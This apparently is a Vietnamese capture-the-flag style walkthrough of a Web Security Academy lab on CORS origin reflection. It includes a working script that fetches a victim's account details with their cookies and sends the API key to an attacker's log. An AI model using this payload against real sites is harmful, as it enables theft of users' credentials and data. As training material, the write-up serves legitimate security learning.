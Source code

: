 # Vulnerabilities arising from CORS configuration issues

Nhiều trang web hiện đại sử dụng CORS để cho phép truy cập từ các tên miền phụ và các bên thứ ba đáng tin cậy. Tuy nhiên, việc triển khai CORS có thể mắc lỗi hoặc được cấu hình quá lỏng lẻo nhằm đảm bảo mọi thứ hoạt động trơn tru, và điều này có thể dẫn đến các lỗ hổng có thể bị khai thác.

# Lab: CORS vulnerability with basic origin reflection

![img](0)

Truy cập lab: 

![img](1)

Đăng nhập vào tài khoản wiener: 

![img](2)

Kiểm tra trong Burp HTTP history, tìm request AJAX gửi đến /accountDetails để lấy API key.

![img](3)

Response của request này: 

![img](4)

=> Response từ server chứa tiêu đề **Access-Control-Allow-Credentials: true**, nghĩa là nó hỗ trợ CORS với thông tin xác thực.

CORS thường cho phép các trang web chia sẻ tài nguyên giữa các miền khác nhau.

Khi Access-Control-Allow-Credentials: true xuất hiện, trình duyệt sẽ gửi cookie của người dùng khi thực hiện request chéo miền.

Nếu Access-Control-Allow-Origin có thể phản hồi lại với giá trị do attacker kiểm soát, thì hệ thống có thể bị khai thác.

Gửi request /accountDetails đến Burp Repeater và sửa tiêu đề để thêm: 

    Origin: https://example.com

![img](5)

Send request, quan sát response: 

![img](6)

=>  server phản hồi với header: 

    Access-Control-Allow-Origin: https://example.com

=>  server không kiểm soát chặt chẽ nguồn gốc (Origin) mà nó cho phép truy cập. Có nghĩa là server chấp nhận bất kỳ trang web nào làm nguồn hợp lệ.

Payload để nhập vào Exploit server:

    <script>
        var req = new XMLHttpRequest();
        req.onload = reqListener;
        req.open('GET', 'https://0ab200e5042e09988298dded00ff0044.web-security-academy.net/accountDetails', true);
        req.withCredentials = true;
        req.send();

        function reqListener() {
            location = '/log?key=' + this.responseText;
        };
    </script>

![img](7)


- **withCredentials = true** đảm bảo rằng trình duyệt gửi cookie xác thực của nạn nhân.

- Nếu server có cấu hình CORS không an toàn, nó sẽ trả về API key cho trang web độc hại.

- **location='/log?key='+this.responseText;** tự động chuyển hướng trình duyệt đến trang log của attacker với API key bị đánh cắp.

Deliver attack to victim và quan sát Access log: 

![img](8)

=> Tìm ra API key của nạn nhân là y4HpPTYTr5eYNK0mwl1sJfEFnbIahDk6. Submit API key và solved bài lab.

![img](9)




